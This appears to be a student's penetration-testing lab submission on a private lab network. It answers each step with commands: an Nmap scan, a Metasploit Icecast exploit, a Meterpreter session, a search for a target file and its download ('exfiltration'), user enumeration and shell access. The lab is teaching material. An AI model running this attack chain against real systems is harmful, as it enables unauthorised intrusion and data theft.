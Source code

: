 ### Submission
You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: ```nmap -sV 192.168.0.20```

![nmap](/17-Pentration-Testing-2/screenshots/nmap.png)
 
 
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: ```searchsploit icecast```

![searchsploit](/17-Pentration-Testing-2/screenshots/searchsploit_ice.png)

3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > Answer: ```msfconsole```

![msfconsole](/17-Pentration-Testing-2/screenshots/msfconsole.png)
 
 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > Answer: ```search icecast```
 
![icecast-search](/17-Pentration-Testing-2/screenshots/icecast-search.png)

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: ```use 0```

![msf-use](/17-Pentration-Testing-2/screenshots/msf_use.png)
 
 
5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > Answer: ```set RHOST 192.168.0.20```

![rhost](/17-Pentration-Testing-2/screenshots/rhost.png)
 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > Answer: ```run```

![run](/17-Pentration-Testing-2/screenshots/run.png)
 
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > Answer: ```search -f *secretfile.txt```
  
1. You should now have a Meterpreter session open.
 
  - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer: ```search -f *recipe.txt```

![search](/17-Pentration-Testing-2/screenshots/search.png) 
 
  - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:


> Answer: ```download 'c:\Users\IEUser\Documents\Drinks.recipe.txt'```

![recipe](/17-Pentration-Testing-2/screenshots/download.png)
 

1. You can also use Meterpreter's local exploit suggester to find possible exploits.

 
   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

 
#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: ```run post/windows/gather/enum_logged_on_users```

![users](/17-Pentration-Testing-2/screenshots/users.png)
 
     
B. Open a Meterpreter shell. 
 
  > Answer:  ```shell```
 
C. Run the command that displays the target's computer system information:

   > Answer: From the shell ```systeminfo```. If from Meterpreter, it would be ```sysinfo```

**Shell**
![systeminfo](/17-Pentration-Testing-2/screenshots/sysinfo.png)

**Meterpreter**
![sysinfo2](/17-Pentration-Testing-2/screenshots/sysinfo2.png)
